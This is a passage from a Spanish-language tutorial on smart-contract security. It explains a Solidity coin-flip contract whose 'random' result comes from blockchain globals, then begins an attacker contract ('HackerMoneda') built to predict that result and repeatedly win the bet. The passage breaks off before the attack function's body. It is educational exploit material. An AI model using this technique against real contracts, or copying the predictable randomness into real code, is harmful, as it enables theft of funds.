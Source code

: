 ```solidity
            )
        );

        /**
         * coinFlip puede tener solo dos valores: 0 o 1
         * Si randomNumber es mayor a FACTOR, coinFlip = 1
         * Si randomNumber es menor a FACTOR, coinFlip = 0
         */
        uint256 coinFlip = randomNumber / FACTOR;
        bool guess = coinFlip == 1 ? true : false;

        if (_guess == guess) {
            // Ganaste
            payable(msg.sender).transfer(2 ether);
        }
    }
}
```

1. El método `flip` es el punto de partida para poder jugar cara o sello en este contrato. Se require depositar `1 Ether` para poder participar.
2. La variable `randomNumber` se calcula como lo conversado anteriormente. Cabe notar que el único dato que se recoge del usuario es su `address` y todo lo demás se lee del blockchain.
3. La variable `coinFlip` se calcula mediante la división de `randomNumber` por `FACTOR`. Dado que `FACTOR` es muy grande solo obtenemos 0 o 1 como resultado. Ello porque Solidity solo acepta división de enteros (e.g. 3/5 = 0 y 4/3 = 1).
4. Si `coinFlip` es 1, `guess` será `true`, `false` en otro escenario.
5. El resultado de `guess` se compara con el input y predicción del usuario (`_guess`). Si son iguales, el participante gana `2 Ether`

### El contrato Attack

Vamos a aplicar ingeniería inversa para poder adivinar `guess` del contrato `Moneda.sol`. La manera en que se puede lograr es que podamos usar las mismas variables globales que usó `Moneda.sol` en el cálculo de su número pseudorandom. Al replicar dichos valores, podemos también replicar las operaciones que se llevaron a cabo sobre esos valores. Así podemos "adivinar" `guess` del contrato `Moneda.sol`.

Dado que necesitamos lógica para poder leer y utilizar dichas variables globales, no tenemos otra opción que utilizar otro contrato inteligente para ese objetivo. Por lo general, los ataques a contratos inteligentes se hacen desde otros contratos.

Analicemos el siguiente contrato `HackerMoneda.sol`:

```solidity
interface IMoneda {
    function flip(bool _guess) external payable;
}

contract HackerMoneda {
    IMoneda coinFlipSC;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinFlipAddress) payable {
        coinFlipSC = IMoneda(_coinFlipAddress);
    }

    /**
     * 'attack' y 'flip' son dos funciones que se ejecutan en la misma transacción
     * Es por ello que ambos métodos comparten algunas variables globales
     * En este caso, el hacker llama 'flip' dentro de 'attack' para aprovecharse de ello
     * El atacante es capaz de realizar el mismo cálculo de 'coinFlip' que el contrato original
     * Así logra adivinar el resultado y ganar la apuesta repetidas veces
     */
```